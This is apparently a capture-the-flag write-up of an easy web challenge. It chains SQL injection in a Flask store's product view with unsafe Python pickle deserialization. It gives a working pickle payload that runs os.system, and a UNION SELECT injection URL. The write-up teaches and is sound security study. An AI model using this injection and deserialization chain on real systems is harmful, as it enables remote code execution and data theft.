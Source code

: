 ```yaml
---
description: Easy 🔮 Web
cover: https://i.pinimg.com/564x/1a/9f/6f/1a9f6fd2acfbc69c597cca5e038650b8.jpg
coverY: 0
layout:
  cover:
    visible: true
    size: hero
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# C.O.P

<figure><img src="../../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

I began exploring the website, which appeared to be a simple online store at first glance. It featured a small collection of items, each accompanied by detailed descriptions and images. Interestingly, the website also had numerous pickle-related images scattered throughout. My curiosity piqued, and I clicked on the first item in the list to see what would happen. As expected, this action led me to a more detailed view of the item, complete with additional information and visuals.

However, what caught my attention was the URL that appeared in the address bar: <mark style="color:red;">**`http://localhost:1337/view/1`**</mark>. The structure of this URL seemed straightforward, but I immediately noticed that it contained a parameter at the end—<mark style="color:red;">**`/1`**</mark>. Intrigued by the potential for exploitation, I decided to test the robustness of the application by tinkering with this parameter.

First, I tried changing the <mark style="color:red;">**`1`**</mark> to a <mark style="color:red;">**`0`**</mark>, curious to see if it would display a different item or an empty page. Instead, the entire application crashed. Encouraged by this unexpected result, I attempted a different number, such as <mark style="color:red;">**`5`**</mark>, only to see the application crash once more. This pattern strongly suggested that the application was not handling input validation properly, potentially exposing it to security vulnerabilities like SQL injection attacks.

The repeated crashes hinted at a deeper flaw in the backend code—a possible lack of error handling when querying the database for item details. The application seemed to expect specific parameters and failed whenever it encountered something outside its predefined range. This was promising; it meant that with a bit more experimentation, I might be able to manipulate the input further to gain unauthorized access to the underlying database.

With this in mind, I set my sights on enumerating the code to uncover what was happening beneath the surface. The goal is to craft a malicious input that could exploit this vulnerability, retrieve sensitive data, or even gain control over the entire application. The thrill of the chase had begun, and with every step, I was getting closer to peeling back the layers of this website's defenses.

## Source code

<figure><img src="../../../../.gitbook/assets/image (166).png" alt=""><figcaption></figcaption></figure>

With a first look at the <mark style="color:red;">**`module.py`**</mark> file, I realized that the <mark style="color:red;">**`product_id`**</mark> variable was added to the end of each query string without any protection. This inadvertently created a SQL Injection vulnerability.

I tried inserting some malicious query string like <mark style="color:red;">'</mark> <mark style="color:red;"></mark><mark style="color:red;">**OR id='2**</mark>  and it was executed:

<figure><img src="../../../../.gitbook/assets/image (167).png" alt=""><figcaption></figcaption></figure>

We can see the query string we inserted as follows:

```sql
SELECT data FROM products WHERE id='' OR id='2'
```

Another interesting detail about the SQL setup is how it stores data for each item. Instead of saving each piece of data—like name, price, or description—in separate columns, it pickles the entire Python object. This pickled data is then encoded in base64 and stored in a single column, along with an ID and a timestamp.

While this approach is flexible, allowing entire objects to be saved in one column, it also adds complexity and potential security risks. If someone could manipulate or decode this data, it might expose vulnerabilities or lead to unauthorized access.

<figure><img src="../../../../.gitbook/assets/image (168).png" alt=""><figcaption></figcaption></figure>

Based on the database code, the application saves each <mark style="color:red;">**`Item`**</mark> object by serializing it, then pickling it, and finally encoding it in base64. This encoded data is stored in the database.

To display the items on the webpage, the application uses the <mark style="color:red;">**`pickle`**</mark> module to deserialize the objects back into their original form. Then, it employs a template engine to iterate through each item and render them on the page. This method, however, can be risky if not handled properly, as deserializing pickled data can lead to security vulnerabilities.

{% hint style="info" %}
In Python, the [<mark style="color:red;">**`pickle`**</mark>](https://docs.python.org/3/library/pickle.html) module lets you serialize and deserialize data. Essentially, this means that you can convert a Python object into a stream of bytes and then reconstruct it (including the object’s internal structure) later in a different process or environment by loading that stream of bytes.
{% endhint %}

<figure><img src="../../../../.gitbook/assets/image (169).png" alt=""><figcaption></figcaption></figure>

<mark style="color:red;">**`@app.template_filter('pickle')`**</mark> is how Flask registers a custom filter named <mark style="color:red;">**`pickle`**</mark> for use in templates. This filter is applied to decode and deserialize data using the <mark style="color:red;">**`pickle`**</mark> and <mark style="color:red;">**`base64`**</mark> modules. The function <mark style="color:red;">**`pickle_loads(s)`**</mark> takes a base64-encoded string <mark style="color:red;">**`s`**</mark>, decodes it back to its original binary format using <mark style="color:red;">**`base64.b64decode(s)`**</mark>, and then deserializes it using <mark style="color:red;">**`pickle.loads()`**</mark> to restore the original Python object.

<figure><img src="../../../../.gitbook/assets/image (170).png" alt=""><figcaption></figcaption></figure>

And then look at <mark style="color:red;">**`item.html`**</mark>, it uses a custom filter, <mark style="color:red;">**`| pickle`**</mark>, to deserialize the <mark style="color:red;">**`product`**</mark> object, which is then stored in a variable called <mark style="color:red;">**`item`**</mark>.

Since we have control over the SQL query, we can manipulate it to retrieve a base64-encoded pickled string from the database. The application then takes this string and passes it to the <mark style="color:red;">**`pickle_loads`**</mark> function. This function first decodes the base64 string and then deserializes the pickled data, which is then printed on the web page.

Because the deserialization process is automatic and happens without any checks, it opens up the possibility of injecting malicious data into the database. This data, when deserialized, could lead to serious security issues like remote code execution.

{% hint style="info" %}
#### 1. Serialization

**Serialization** is the process of converting an object in memory into a data format that can be easily stored or transmitted, such as a byte stream. This allows data or objects to be saved to a file, database, or sent over a network.

**Purpose of Serialization:**

* **Object Storage**: Save objects to files or databases for later use.
* **Network Communication**: Send objects between different machines or processes.

#### 2. Deserialization

**Deserialization** is the reverse process of serialization. It converts the serialized byte stream back into the original object. This allows the program to restore the original data from the stored or transmitted format.

**Purpose of Deserialization:**

* **Object Restoration**: To reuse previously stored data.
* **Receiving Data from a Network**: Convert received data from a network into objects for processing.
{% endhint %}

## Exploit

The <mark style="color:red;">**`pickle`**</mark> module **is not secure.** It is possible to construct malicious pickle data that will **execute arbitrary code during unpickling**.

According to this [article](https://davidhamann.de/2020/04/05/exploiting-python-pickle/), we can know the way to exploit this

```python
import pickle
import base64
import os


class RCE:
    def __reduce__(self):
        cmd = ('cp flag.txt application/static/.')
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```

By implementing <mark style="color:red;">**`__reduce__`**</mark> in a class in which instances we are going to pickle, we can give the pickling process a callable plus some arguments to run. While intended for reconstructing objects(e.g. we can abuse this to get our reverse shell code executed).

{% hint style="info" %}
The <mark style="color:red;">**`__reduce__()`**</mark> method takes no argument and shall return either a string or preferably a tuple (the returned object is often referred to as the “<mark style="color:red;">**`reduce value`**</mark>”). \[…] When a tuple is returned, it must be between two and six items long. Optional items can either be omitted, or None can be provided as their value. The semantics of each item are in order:

* A callable object will be called to create the initial version of the object.
* A tuple of arguments for the callable object. An empty tuple must be given if the callable does not accept any argument. \[…]
{% endhint %}

Run the exploit:

<figure><img src="../../../../.gitbook/assets/image (174).png" alt=""><figcaption></figcaption></figure>

Crafting payload:

```
http://94.237.54.160:30975/view/' UNION SELECT '<MALICIOUS>
```

```url
http://94.237.54.160:30975/view/'%20UNION%20SELECT%20'gASVOwAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjCBjcCBmbGFnLnR4dCBhcHBsaWNhdGlvbi9zdGF0aWMvLpSFlFKULg== 
```

And the SQL query would be:

```sql
SELECT data FROM products WHERE id='' UNION SELECT '<MALICIOUS>'
```

{% code overflow="wrap" %}
```sql
SELECT data FROM products WHERE id='' UNION SELECT 'gASVOwAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjCBjcCBmbGFnLnR4dCBhcHBsaWNhdGlvbi9zdGF0aWMvLpSFlFKULg=='
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (175).png" alt=""><figcaption></figcaption></figure>

Navigate to that endpoint to get the flag:

<figure><img src="../../../../.gitbook/assets/image (176).png" alt=""><figcaption></figcaption></figure>

